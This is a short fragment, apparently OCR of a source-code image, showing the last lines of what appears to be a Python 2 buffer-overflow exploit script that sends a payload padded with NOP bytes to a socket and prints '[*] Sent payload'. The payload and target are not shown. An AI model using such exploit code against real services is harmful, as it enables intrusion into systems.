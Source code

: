 ```python

time.sleep(5)

s.send(payload + '\x90' * (1024 - len(payload)))

print '[*] Sent payload'

s.close()
```
